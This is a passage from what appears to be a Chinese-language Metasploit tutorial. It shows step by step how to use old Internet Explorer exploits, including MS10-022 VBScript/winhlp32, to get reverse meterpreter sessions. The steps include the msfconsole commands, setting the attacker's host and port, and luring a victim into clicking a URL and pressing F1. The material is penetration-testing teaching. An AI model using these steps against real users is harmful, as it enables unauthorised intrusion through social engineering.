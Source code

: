在浏览器中打开 URL 将创建快捷方式图标和 DLL 文件。当时，在`msfconsole`中创建了一个`meterpreter`会话，我们的受害者已经被泄露。现在让我们通过输入`sessions`来检查会话。

![Internet Explorer shortcut icon exploit](graphics/3589_06_20.jpg)

我们可以在这里看到一个会话已经创建。现在我们选择`meterpreter`会话来利用受害者的系统。选择会话时，使用的命令为`sessions –i <Id>`；例如，这里我们使用的是`sessions –i 1`。

![Internet Explorer shortcut icon exploit](graphics/3589_06_21.jpg)

选择会话后，我们成功接收到`meterpreter`；然后，我们可以进一步开发客户端系统。

## Internet Explorer 恶意 VBScript 代码执行漏洞

我们有另一个有趣的漏洞，与我们之前的漏洞类似，使用相同的条件和软件版本。这一次，我们将向您展示当网页上出现恶意 VBScript 生成的消息框后，受害者按下*F1*按钮时出现的代码执行漏洞。

要使用此漏洞，请启动`msfconsole`并键入`use exploit/windows/browser/ms10_022_ie_vbscript_winhlp32`。

![Internet Explorer malicious VBScript code execution exploit](graphics/3589_06_22.jpg)

现在输入`show options`查看漏洞利用中必须设置的所有选项。

![Internet Explorer malicious VBScript code execution exploit](graphics/3589_06_23.jpg)

需要的第一个选项是`SRVHOST`。反向连接需要 IP 地址，因此我们设置了攻击者的机器 IP。例如，我们在这里输入`set SRVHOST 192.168.0.105`。

![Internet Explorer malicious VBScript code execution exploit](graphics/3589_06_24.jpg)

现在我们通过输入`set SRVPORT 80`来设置`SRVPORT`号。

![Internet Explorer malicious VBScript code execution exploit](graphics/3589_06_25.jpg)

下一个选项是通过输入`set URIPATH /`将`URIPATH`路径设置为默认设置。

![Internet Explorer malicious VBScript code execution exploit](graphics/3589_06_26.jpg)

现在，所有选项都已设置并准备好运行漏洞攻击，请键入`exploit`。

![Internet Explorer malicious VBScript code execution exploit](graphics/3589_06_27.jpg)

接下来，我们只需要使用一些社会工程技能，让受害者点击 URL。我们将 URL 提供给受害者，让他点击。在 Internet Explorer 中打开 URL 后，会弹出一个消息框，显示一条消息，**欢迎！按 F1 键关闭此对话框。**

![Internet Explorer malicious VBScript code execution exploit](graphics/3589_06_28.jpg)

按下*F1*后，恶意 VBScript 将在浏览器中运行并发送名为`calc.exe`的负载。

![Internet Explorer malicious VBScript code execution exploit](graphics/3589_06_29.jpg)

在执行`.exe`文件后，将与攻击者机器建立反向连接并创建`meterpreter`会话。输入`sessions`检查可用会话。

![Internet Explorer malicious VBScript code execution exploit](graphics/3589_06_30.jpg)

我们可以在这里看到已经创建了一个会话。现在选择`meterpreter`会话以利用受害者的系统。对于选择会话，我们使用命令`sessions –i <Id>`；例如，这里我们使用的是`sessions –i 1`。
